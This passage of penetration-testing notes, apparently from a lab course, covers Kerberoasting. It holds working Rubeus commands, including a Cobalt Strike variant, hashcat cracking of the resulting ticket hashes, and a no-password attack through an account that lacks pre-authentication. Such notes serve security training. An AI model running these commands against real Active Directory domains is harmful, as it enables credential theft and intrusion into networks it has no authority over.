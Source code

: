 #### Using Rubeus to Kerberoast a specific user and write the result to a file
```cmd.exe
Rubeus.exe kerberoast /nowrap /user:jacob.kelly /outfile:filename.txt
```
We could use the /pwdsetafter and /pwdsetbefore arguments to Kerberoast accounts whose password was set within a particular date; this can be helpful to us, as sometimes we find legacy accounts with a password set many years ago that is outside of the current password policy and relatively easy to crack.

#### ==COBALT STRIKE: Using Rubeus to Kerberoast a specific user and write the result to a file==
```cobalt
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /simple /nowrap /user:jacob.kelly
```

- We will know the difference because an RC4 encrypted ticket will return a hash that starts with the $krb5tgs$23$* prefix, while AES encrypted tickets will give us a hash that begins with $krb5tgs$18$*.

### Hash Cracking

#### Cracking Kerberoastable Hashes with hashcat
```cmd.exe
hashcat.exe -m 13100 C:\Tools\kerb.txt C:\Tools\rockyou.txt -O
```

### Kerberoasting without an Account Password

To perform this attack, we need the following:
- Username of an account with pre-authentication disabled (DONT_REQ_PREAUTH).
- A target SPN or a list of SPNs.

#### Execute Rubeus createnetonly
```cmd.exe
Rubeus.exe createnetonly /program:cmd.exe /show
```
Rubeus will utilize its CMD window to perform this attack

**From the new cmd window opened, we will perform the attack; if we try to run the Kerberoast option, it will fail because we are not authenticated.**

#### Performing the Attack *without* /nopreauth
```cmd.exe
Rubeus.exe kerberoast
```

**Now include a user with `DONT_REQ_PREAUTH` set (e.g., `amber.smith`) and an SPN such as `MSSQLSvc/SQL01:1433`, it will return a ticket**

#### Performing the attack *with* /nopreauth
```cmd.exe
Rubeus.exe kerberoast /nopreauth:amber.smith /domain:inlanefreight.local /spn:MSSQLSvc/SQL01:1433 /nowrap
```
